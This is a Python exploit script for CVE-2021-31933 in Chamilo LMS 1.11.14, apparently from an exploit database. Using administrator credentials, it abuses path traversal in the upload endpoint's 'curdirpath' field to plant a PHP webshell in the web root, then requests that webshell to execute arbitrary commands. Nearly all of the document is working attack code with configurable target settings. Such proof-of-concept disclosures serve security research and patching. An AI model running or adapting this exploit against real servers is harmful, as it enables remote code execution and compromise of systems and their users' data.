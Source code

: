EXP
---

    # Exploit Title: Chamilo LMS 1.11.14 - Remote Code Execution (Authenticated)
    # Date: 13/05/2021
    # Exploit Author: M. Cory Billington (@_th3y)
    # Vendor Homepage: https://chamilo.org
    # Software Link: https://github.com/chamilo/chamilo-lms
    # Version: 1.11.14
    # Tested on: Ubuntu 20.04.2 LTS
    # CVE: CVE-2021-31933
    # Writeup: https://theyhack.me/CVE-2021-31933-Chamilo-File-Upload-RCE/

    from requests import Session
    from random import choice
    from string import ascii_lowercase

    import requests

    # This is all configuration stuff,
    url = "http://127.0.0.1/chamilo-lms/"  # URL to remote host web root
    user_name = "admin"  # User must be an administrator
    password = "admin"
    command = "id;whoami"

    # Where you want to upload your webshell. Must be writable by web server user.
    # This spot isn't protectec by .htaccess
    webshell_path = 'web/'
    webshell_name = f"shell-{''.join(choice(ascii_lowercase) for _ in range(6))}.phar" # Just a random name for webshell file
    content = f"<?php echo `{command}`; ?>"

    def main():
        # Run a context manager with a session object to hold login session after login
        with Session() as s:
            login_url = f"{url}index.php"
            login_data = {
                "login": user_name,
                "password": password
            }
            r = s.post(login_url, data=login_data) # login request

            # Check to see if login as admin user was successful.
            if "admin" not in r.url:
                print(f"[-] Login as {user_name} failed. Need to be admin")
                return
            print(f"[+] Logged in as {user_name}")
            print(f"[+] Cookie: {s.cookies}")
            file_upload_url = f"{url}main/upload/upload.php"
            # The 'curdirpath' is not santitized, so I traverse to  the '/var/www/html/chamilo-lms/web/build' directory. I can upload to /tmp/ as well
            php_webshell_file = {
                "curdirpath": (None, f"/../../../../../../../../../var/www/html/chamilo-lms/{webshell_path}"),
                "user_upload": (webshell_name, content)
                }

            ## Good command if you want to see what the request looks like without sending
            # print(requests.Request('POST', file_upload_url, files=php_webshell_file).prepare().body.decode('ascii'))

            # Two requests required to actually upload the file
            for i in range(2):
                s.post(file_upload_url, files=php_webshell_file)

            exploit_request_url = f"{url}{webshell_path}{webshell_name}"
            print("[+] Upload complete!")
            print(f"[+] Webshell: {exploit_request_url}")

            # This is a GET request to the new webshell to trigger code execution
            command_output = s.get(exploit_request_url)
            print("[+] Command output:\n")
            print(command_output.text)



    if __name__ == "__main__":
        main()